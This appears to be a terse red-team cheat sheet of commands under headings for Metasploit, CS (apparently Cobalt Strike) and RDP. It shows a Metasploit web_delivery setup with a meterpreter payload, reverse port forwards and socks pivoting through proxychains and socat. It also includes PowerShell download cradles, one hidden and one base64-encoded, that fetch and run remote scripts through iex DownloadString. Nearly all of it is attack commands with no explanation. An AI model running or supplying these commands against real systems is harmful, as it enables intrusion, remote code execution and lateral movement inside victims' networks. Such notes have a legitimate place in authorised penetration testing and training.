 
### Metasploit
```
portfwd add -R -p 8080 -L 192.168.100.166 -l 443
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 2
msf5 exploit(multi/script/web_delivery) > set SRVHOST 192.168.100.166
msf5 exploit(multi/script/web_delivery) > set SRVPORT 443
msf5 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/script/web_delivery) > set EXITFUNC thread
msf5 exploit(multi/script/web_delivery) > set URIPATH /msf.ps1
msf5 exploit(multi/script/web_delivery) > exploit -j
``

### CS
```
socks 1080

rportfwd 8080 192.168.100.166 443

proxychains socat TCP4-Listen:1433,fork TCP:10.10.120.20:1433

PS C:\Users\Commando> $OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('http://wkstn-1555:8080/a')"
PS C:\Users\Commando> [System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))

```

###RDP
```
socks 1337

proxychains socat TCP4-LISTEN:3389,fork TCP4:10.0.0.100:3389

rportfwd 8080 178.62.56.134 80

powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://10.0.1.200:8080/smb'))"


```

